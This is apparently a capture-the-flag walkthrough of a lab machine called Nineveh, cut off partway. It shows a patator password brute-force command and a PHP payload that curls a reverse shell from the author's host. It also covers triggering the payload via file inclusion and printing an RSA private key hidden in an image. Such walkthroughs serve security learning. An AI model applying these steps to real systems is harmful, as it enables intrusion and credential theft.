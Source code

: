 
I brute forced the password field on /db/index.php with patator and I got the password `password123`

    patator http_fuzz url=”https://10.10.10.43/db/index.php" method=POST body=’password=FILE0&login=Log+In&proc_login=true’ 0=rockyou.txt follow=1 accept_cookie=1 -x ignore:fgrep=’Incorrect password.’ -x quit:fgrep=’test’
    12:31:53 patator INFO — Starting Patator v0.6 (http://code.google.com/p/patator/) at 2017–10–19 12:31 EDT
    12:32:01 patator INFO —
    12:32:01 patator INFO — code size:clen time | candidate | num | mesg
    12:32:01 patator INFO — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — -
    12:32:43 patator INFO — 200 16224:-1 0.506 | password123 | 1384 | HTTP/1.1 200 OK
![](https://cdn-images-1.medium.com/max/1000/1*1OO-r2xSUNQmmGoeDg6h_g.png)


Once I logged into the database I created a table named `ninevehNotes.txt`inside the `ninevehNotes.txt` database. Something useful to note is the path where the database files are being store.
Path to database:`/var/tmp/NinevehNotes.txt`
Now that we know the path I’m going to create a simple php script that calls home and downloads a php file from my server into the victims machine.

    <?php system(“curl http://10.10.14.35:8080/sshell.php -o /var/tmp/ninevehNotes12.php”); ?>

When you’re setting up the database table you need to change the type from INT to TXT and the “Default Value” to the php script then just create the query. The php script is just calling the system function which allows you to execute shell commands through php it then executes curl to download the file `[sshell.php](http://10.10.14.35:8080/sshell.php)` to /var/tmp/ as `ninevehNotes12.php` since we know that we can write there might as well put the shell there for now.

![](https://cdn-images-1.medium.com/max/1000/1*B2XlAeMF54VqPPB07guk1w.png)


I created a SimpleHTTPServer with python on port 8080 with my reverse shell. To execute the file we need to visit the file uploaded in /var/tmp/ which is ninevehNotes.txt. That should execute the content of ninevehNotes.txt which is the php code downloading the reverse shell and outputting it as ninevehNotes12.php
We can use [http://10.10.10.43//department/manage?manage](http://10.10.10.43//department/login.php)=files/ninevehNotes.txt to execute our file.

![](https://cdn-images-1.medium.com/max/1000/1*QE_R3lfZS4--foPy-tXUvw.png)


Now all we have to do is set up a netcat listener and execute the file we uploaded to the system ninevehNotes12.php an we should get a shell if we now execute `ninevehNotes12.php`.

![](https://cdn-images-1.medium.com/max/1000/1*Tw4hbPUrTnrDme2XArkqEA.png)


Once we get the reverse shell I tried getting the user flag but couldn’t because www-data didn’t have permissions to read the file we need to elevate our privileges. I did some enumeration on the system and found `/var/www/ssl/secure_notes` there was a photo named nineveh.png that had a private key embedded in the metada.

    strings -n 8 nineveh.png
    00000000000
    13126060277
    www-data
    www-data
    secret/nineveh.priv
    00000003213
    13126045656
    www-data
    www-data
     — — -BEGIN RSA PRIVATE KEY — — -
    MIIEowIBAAKCAQEAri9EUD7bwqbmEsEpIeTr2KGP/wk8YAR0Z4mmvHNJ3UfsAhpI
    H9/Bz1abFbrt16vH6/jd8m0urg/Em7d/FJncpPiIH81JbJ0pyTBvIAGNK7PhaQXU